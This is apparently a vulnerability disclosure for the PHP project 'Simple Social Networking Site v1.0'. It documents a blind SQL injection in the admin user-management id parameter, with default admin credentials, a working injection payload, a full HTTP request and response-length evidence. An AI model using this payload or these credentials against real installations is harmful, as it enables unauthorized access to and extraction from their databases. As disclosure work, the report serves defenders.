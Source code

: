 # Simple Social Networking Site v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: /sns/admin/?page=user/manage_user&id=

Vulnerability location: /sns/admin/?page=user/manage_user&id=,id

[+] Payload: /sns/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=6--+ // Leak place ---> id

Current database name: sns_db,length is 6

```sql
GET /sns/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 5, Content-Length: 25820

![image](https://user-images.githubusercontent.com/54017627/166929711-e33618b9-0572-41dd-8f5c-dadd416e5d02.png)

![image](https://user-images.githubusercontent.com/54017627/166929597-91cbdd95-35c1-479e-95cf-87db0598869b.png)

When length (database ()) = 6, Content-Length: 25789

![image](https://user-images.githubusercontent.com/54017627/166929657-89f09dae-0f0a-4c74-9c6d-8e7fee1a6693.png)

![image](https://user-images.githubusercontent.com/54017627/166929540-1c98944d-6bfd-433a-a094-2debd87e2cb0.png)
